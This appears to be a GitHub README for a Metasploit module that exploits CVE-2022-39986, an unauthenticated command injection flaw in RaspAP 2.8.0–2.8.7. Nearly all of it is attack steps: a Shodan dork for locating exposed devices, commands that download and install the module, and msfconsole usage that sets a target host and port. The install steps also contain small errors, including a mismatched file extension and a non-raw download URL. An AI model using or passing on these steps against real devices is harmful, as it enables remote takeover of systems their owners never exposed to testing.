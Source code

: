 # CVE-2022-39986
![](https://img.shields.io/static/v1?label=Product&message=RaspAP&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=2.8.0%20thru%202.8.7&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Command%20Injection&color=red)

- Shodan dork:
```
"RaspAP"
```

### Install
```
wget https://github.com/getdrive/PoC/blob/main/2022/RaspAp_RCE/raspap_rce.rb
```
```
cp  raspap_rce.rd /usr/share/metasploit-framework/modules/exploit/unix/http/
```
### Usage
```
msfdb reinit; msfconsole -q
```
```
use exploit/unix/http/raspap_rce
```
```
set RHOST [IP]
set RPORT [PORT]
check
```
